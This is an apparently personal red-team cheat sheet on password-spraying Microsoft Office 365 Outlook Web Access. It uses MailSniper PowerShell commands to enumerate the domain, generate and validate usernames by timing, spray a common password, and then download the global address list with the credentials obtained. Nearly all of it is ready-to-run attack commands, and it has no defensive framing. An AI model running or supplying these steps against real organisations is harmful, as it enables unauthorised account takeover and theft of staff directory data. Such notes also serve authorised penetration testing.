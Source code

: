 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Office_365
---
```



<span style="font-size: 35px; color:red"><b>Microsoft Office 365</b></span>
<span style="font-size: 25px;"><b>Password Spray</b></span>
- [MailSniper](https://github.com/dafthack/MailSniper)
- [SprayingToolkit](https://github.com/byt3bl33d3r/SprayingToolkit)
&nbsp;

---
&nbsp;
<span style="font-size: 25px;"><b>MailSniper.ps1</b></span>
&nbsp;
```powershell
import-module ./MailSniper.ps1
```
Enumerate the NETBios Domain Name:
```powershell
Invoke-DomainHarvestOWA -ExchHostname <hostname_OWA_without_https://>
```
Starting from a list of "Name Surname" (names.txt), create a list of permutations with [namemash.py](https://gist.github.com/superkojiman/11076951):
```powershell
namemash.py <names.txt> \> <possible.txt>
```
Validate usernames through a time-based enumeration:
```powershell
Invoke-UsernameHarvestOWA -ExchHostname <hostname_OWA_without_https://> -Domain <domain> -UserList <possible.txt> -OutFile <valid.txt>
```
Password Spray OWA:
```powershell
Invoke-PasswordSprayOWA -ExchHostname <hostname_OWA_without_https://> -UserList <valid.txt> -Password Summer2022
```
Download global address list using working credentials found before:
```powershell
Get-GlobalAddressList -ExchHostname <hostname_OWA_without_https://> -UserName <domain\username> -Password Summer2022 -OutFile <list.txt>
```
